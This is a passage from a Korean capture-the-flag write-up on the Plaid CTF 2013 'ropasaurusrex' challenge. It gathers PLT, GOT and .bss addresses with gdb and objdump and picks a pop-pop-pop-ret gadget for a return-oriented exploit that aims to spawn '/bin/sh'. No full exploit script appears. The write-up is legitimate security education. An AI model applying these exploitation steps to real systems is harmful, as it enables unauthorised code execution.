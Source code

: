 input 함수 내부이다. 

**read@plt : 0x804832c**



```assembly
gdb-peda$ x/3i 0x804832c
   0x804832c <read@plt>:	jmp    DWORD PTR ds:0x804961c
   0x8048332 <read@plt+6>:	push   0x18
   0x8048337 <read@plt+11>:	jmp    0x80482ec
```

**read@got : 0x804961c**



이제 "/bin/sh" 문자열을 넣을 공간을 찾아야 하는데, 제일 만만한 곳이 bss영역이다.

```sh
root@ubuntu  ~/study# objdump -h ropasaurusrex | grep bss
 24 .bss          00000008  08049628  08049628  00000628  2**2
```

**bss주소 : 0x08049628**



위에서 구한것들을 정리해보면,

write@plt : 0x804830c

write@got : 0x8049614

read@plt : 0x804832c

read@got : 0x804961c

bss주소 : 0x08049628



위 정보를 다른 방법으로 구하는 방법.

![](http://eliez3r.synology.me/assets/img/writeup/plaid_ctf_2013/ROPasaurusrex/image-20180826231757695.png)



이제 pop-pop-pop-ret 가젯만 구하면 된다.

ropper를 이용하여 가젯을 구하면 쉽지만, ropper가 없는 환경 일 수 있으니 objdump로 구하는 방법을 소개하겠다.



![](http://eliez3r.synology.me/assets/img/writeup/plaid_ctf_2013/ROPasaurusrex/image-20180826231705197.png)

위에서 나온 가젯들 중 pop-pop-pop-ret이 연속적인 주소로 된 것을 고르면 된다. 

0x080484b6를 사용하면 될 것 같다.



!["ropper는 좀 더 이쁘게보여진다"](http://eliez3r.synology.me/assets/img/writeup/plaid_ctf_2013/ROPasaurusrex/image-20180826231440053.png)

ropper는 좀 더 이뿌게 보여진다.
